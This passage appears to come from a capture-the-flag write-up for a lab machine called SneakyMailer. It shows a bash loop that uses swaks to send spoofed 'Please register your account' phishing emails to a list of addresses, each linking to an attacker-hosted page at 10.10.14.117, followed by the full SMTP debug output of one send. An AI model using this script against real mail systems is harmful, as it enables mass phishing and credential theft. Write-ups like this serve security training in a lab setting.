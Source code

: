 ```bash
#!/bin/bash
for email in `cat emails.txt`
do
 echo "[*] sending to $email"
 swaks --from support@sneakymailer.htb --to $email
 --server sneakycorp.htb
 --header 'Subject: Please register your account'
 --body 'http://10.10.14.117/pypi/register.php'
done
```

As this script runs, it will print out debugging information

```bash
[*] sending to paulbyrd@sneakymailer.htb
=== Trying sneakycorp.htb:25...
=== Connected to sneakycorp.htb.
<- 220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO parrot
<- 250-debian
<- 250-PIPELINING
<- 250-SIZE 10240000
<- 250-VRFY
<- 250-ETRN
<- 250-STARTTLS
<- 250-ENHANCEDSTATUSCODES
<- 250-8BITMIME
<- 250-DSN
<- 250-SMTPUTF8
<- 250 CHUNKING
 -> MAIL FROM:<support@sneakymailer.htb>
<- 250 2.1.0 Ok
 -> RCPT TO:<paulbyrd@sneakymailer.htb>
<- 250 2.1.5 Ok
 -> DATA
<- 354 End data with <CR><LF>.<CR><LF>
 -> Date: Tue, 15 Dec 2020 13:14:41 +0800
 -> To: paulbyrd@sneakymailer.htb
 -> From: support@sneakymailer.htb
 -> Subject: Please register your account
 -> Message-Id: <20201215131441.004588@parrot>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 ->
 -> http://10.10.14.117/pypi/register.php
 ->
 ->
 -> .
<- 250 2.0.0 Ok: queued as 38CD624256
 -> QUIT
<- 221 2.0.0 Bye
```

